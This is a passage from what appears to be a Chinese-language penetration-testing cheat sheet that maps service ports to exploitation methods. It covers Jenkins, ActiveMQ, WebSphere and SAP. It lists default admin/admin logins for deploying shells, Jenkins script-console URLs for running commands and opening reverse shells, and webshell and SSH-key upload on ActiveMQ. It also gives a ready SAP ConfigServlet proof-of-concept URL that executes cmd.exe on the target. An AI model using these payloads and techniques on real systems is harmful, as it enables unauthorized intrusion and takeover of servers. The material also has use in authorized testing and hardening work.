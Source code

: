 ```
安全漏洞：弱口令、任意文件读取

利用方式：

1、弱口令admin/admin，直接部署shell

2、任意文件读取获取服务器敏感配置信息
```



### 8080 端口（Jenkins）

```
安全漏洞：未授权访问 、远程代码执行

利用方式：访问如下url，可以执行脚本命令，反弹shell，写入webshell等

http://<target>:8080/managehttp://<target>:8080/script
```



### 8161 端口（ActiveMQ）

```
安全漏洞：弱口令、任意文件写入、反序列化

利用方式：

默认密码admin/admin登陆控制台

写入webshell

上传ssh key等方式
```



### 9043 端口（webSphere）

```
安全漏洞：控制台弱口令、远程代码执行后台地址：https://:9043/ibm/console/logon.jsp
```



### 50000 端口 （SAP）

```
安全漏洞：远程代码执行

利用方式：攻击者通过构造url请求，实现远程代码执行。

POC:http://<target>:50000/ctc/servlet/com.sap.ctc.util.ConfigServlet?param=com.sap.ctc.util.FileSystemConfig;EXECUTE_CMD;CMDLINE=cmd.exe /c ipconfig /all
```
